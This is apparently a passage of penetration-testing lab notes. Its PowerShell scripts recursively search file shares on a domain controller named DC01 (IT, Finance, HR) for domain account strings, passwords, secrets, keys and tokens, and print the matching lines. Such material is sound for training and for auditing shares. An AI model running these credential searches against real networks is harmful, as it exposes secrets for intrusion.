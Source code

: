 ```powershell
foreach ($share in $shares) {
    Write-Host "Searching $share for domain credentials..." -ForegroundColor Yellow
    Get-ChildItem -Recurse -Include *.* $share -ErrorAction SilentlyContinue | 
        Select-String -Pattern "INLANEFREIGHT\\|inlanefreight\\" -ErrorAction SilentlyContinue
}

# Alternative domain patterns to search for
$domainPatterns = @("INLANEFREIGHT\\", "inlanefreight\\", "domain\\", "DOM\\")
foreach ($pattern in $domainPatterns) {
    Get-ChildItem -Recurse -Include *.txt,*.cfg,*.ini,*.xml \\DC01\IT | 
        Select-String -Pattern $pattern -ErrorAction SilentlyContinue
}
```

#### Advanced PowerShell Hunting
```powershell
# Function for comprehensive credential hunting
function Search-ShareCredentials {
    param(
        [string[]]$SharePaths,
        [string[]]$Extensions = @("*.txt","*.ini","*.cfg","*.xml","*.ps1","*.bat"),
        [string[]]$Patterns = @("password","passwd","secret","key","token","cred")
    )
    
    foreach ($share in $SharePaths) {
        Write-Host "Scanning: $share" -ForegroundColor Green
        
        # File pattern search
        Get-ChildItem -Path $share -Recurse -Include $Extensions -ErrorAction SilentlyContinue |
            ForEach-Object {
                foreach ($pattern in $Patterns) {
                    $matches = Select-String -Path $_.FullName -Pattern $pattern -ErrorAction SilentlyContinue
                    if ($matches) {
                        [PSCustomObject]@{
                            Share = $share
                            File = $_.FullName
                            Pattern = $pattern
                            LineNumber = $matches.LineNumber
                            Content = $matches.Line
                            LastModified = $_.LastWriteTime
                        }
                    }
                }
            }
    }
}

# Usage example
$targetShares = @("\\DC01\IT","\\DC01\Finance","\\DC01\HR")
Search-ShareCredentials -SharePaths $targetShares
```
